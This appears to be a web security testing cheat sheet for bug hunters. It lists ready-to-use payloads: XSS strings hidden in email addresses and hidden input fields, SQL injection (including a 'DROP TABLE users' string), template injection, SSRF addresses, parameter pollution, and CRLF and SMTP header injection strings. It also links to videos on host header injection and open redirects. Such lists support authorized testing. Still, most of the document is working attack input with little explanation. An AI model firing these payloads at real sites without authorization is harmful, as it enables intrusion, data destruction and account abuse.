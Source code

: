 # XSS

:pushpin: 1. Test all url parameters for reflection and start manipulation. </br>
:pushpin: 2. In the email section try to input the following email if there is a validation.

```
test+(<script>alert(0)</script>)@example.com

test@example(<script>alert(0)</script>).com

"<script>alert(0)</script>"@example.com
```

:pushpin: 3. XSS on input type hidden
Can be used when payload is injected BEFORE type="hidden" attribute (XSS is triggered without interaction
```
http://web.com/?c=red" type=image src=1 onerror="alert(1)

<input name="color" value="red" type="image" src="1" onerror="alert(ERIC)" type="hidden">
```

Can be used when payload is injected AFTER type="hidden" attribute (Firefox Only) <kbd>ALT+SHIFT+X / CMD+ALT+X</kbd>
```
http://web.com/?c=red" accesskey=x onclick="alert(ERIC)

<input type="hidden" name="color" value="red" accesskey="x" onclick="alert(ERIC)">
```

# REDIRECT
:pushpin: 1. Host Header Injection [https://www.youtube.com/watch?v=EPmcOtIJ7dA](https://www.youtube.com/watch?v=EPmcOtIJ7dA) </br>
:pushpin: 2. Open URL redirection vulnerability [https://www.youtube.com/watch?v=vf6GM0Araxw](https://www.youtube.com/watch?v=vf6GM0Araxw)


# EMAIL VALIDATION
:pushpin: 1. Check the following email if email is fully validated. [https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view](https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view)

Template injection
```
"<%= 7 * 7 %>"@example.com

test+(${{7*7}})@example.com
```

SQLi
```
"' OR 1=1 -- '"@example.com

"mail'); DROP TABLE users;--"@example.com
```

SSRF
```
john.doe@abc123.burpcollaborator.net

john.doe@[127.0.0.1]
```

Parameter pollution
```
victim&email=attacker@example.com
```

Header injection
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com

"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

Wildcard abuse
```
%@example.com
```
